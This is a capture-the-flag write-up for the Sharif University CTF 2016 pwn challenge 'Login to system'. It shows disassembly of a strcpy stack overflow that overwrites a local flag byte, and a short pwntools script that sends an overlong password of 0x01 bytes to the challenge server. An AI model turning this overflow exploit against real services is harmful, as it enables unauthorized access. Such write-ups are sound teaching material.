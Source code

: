 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: Login to system (pwn 100)"
author: f0rki
categories: writeup
---
```


* **Category:** pwn
* **Points:** 100
* **Description:**

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Download Question.zip


## Write-up

The binary we were given was a threaded TCP server. The connection handling
function is at `0x00400de4`. It asks for username and password. The goal is to
login without username/password. The following piece of code checks whether a
a byte on the stack is `0x01` and then executes code that apparently reads the
flag and sends it to us.

```
│           0x00400f91      488d45e0       lea rax, [rbp-local_4]
│           0x00400f95      0fb600         movzx eax, byte [rax]
│           0x00400f98      3c01           cmp al, 1
```

Fortunately right before this check there is a call to strcpy:

```
│           0x00400f78      488d95d0fbff.  lea rdx, [rbp-local_134]
│           0x00400f7f      488d8520fbff.  lea rax, [rbp-local_156]
│           0x00400f86      4889d6         mov rsi, rdx
│           0x00400f89      4889c7         mov rdi, rax
│           0x00400f8c      e80ffcffff     call sym.imp.strcpy
```

So a stack based buffer overflow and overwriting a local variable. This is
easy. With a quick `pwntools` script we are able to get the flag:


```
from pwn import *  # NOQA

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"

vulnbin = "./Question"
velf = ELF(vulnbin)
vp = remote("ctf.sharif.edu", 27515)

username = "yomama"
password = "\x01" * 1050

x = vp.recvuntil("enter:")
assert "username" in x
vp.sendline(username)
x = vp.recvuntil("enter:")
assert "password" in x
vp.sendline(password)

with context.local(log_level='debug'):
    vp.clean_and_log()

vp.interactive()
```
